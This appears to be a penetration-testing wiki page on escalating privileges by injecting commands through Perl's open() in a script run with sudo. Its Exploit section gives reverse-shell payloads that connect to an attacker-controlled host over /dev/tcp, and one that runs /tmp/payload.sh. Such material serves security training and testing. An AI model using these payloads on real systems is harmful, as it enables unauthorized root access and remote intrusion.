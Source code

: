 # Perl

## Theory

Perl scripting is a powerful tool used by system administrators and developers to automate tasks and streamline processes on Unix-like systems. However, like any software, perl scripts can be vulnerable to various security issues, which, if exploited, can lead to privilege escalation and unauthorized access.

## Practice

### Open() Command Injection

{% tabs %}
{% tab title="Enumerate" %}
Assume the ruby script can be executed as root with sudo rights. If it use the `open()` method and we controll its input, then the script is vulnerable to arbitrary code execution.

```bash
sudo -l
    (root): /usr/bin/perl open.pl
```

Check if we have control over the input of the vulnerable function
```perl
my $file = <>;
open(FH, $file);
while (my $line = <FH>) {
  print($line);
}
```
{% endtab %}

{% tab title="Exploit" %}
If we controll some variables passed to this vulnerables functions, we can inject arbitrary code.
here is an example of a malicious payloads passed to the `open()` function:

```bash
|bash -c 'bash -i >& /dev/tcp/<ATTACKING_IP>/9001 0>&1'
bash -c 'bash -i >& /dev/tcp/10.10.14.12/9001 0>&1'|
|/tmp/payload.sh
```

{% hint style="info" %}
The `|` is a built in functionality used to execute the file when opening it. The file must be executable.
{% endhint %}

{% endtab %}
{% endtabs %}


## References

{% embed url="https://www.youtube.com/watch?v=X5hVEuWmehk" %}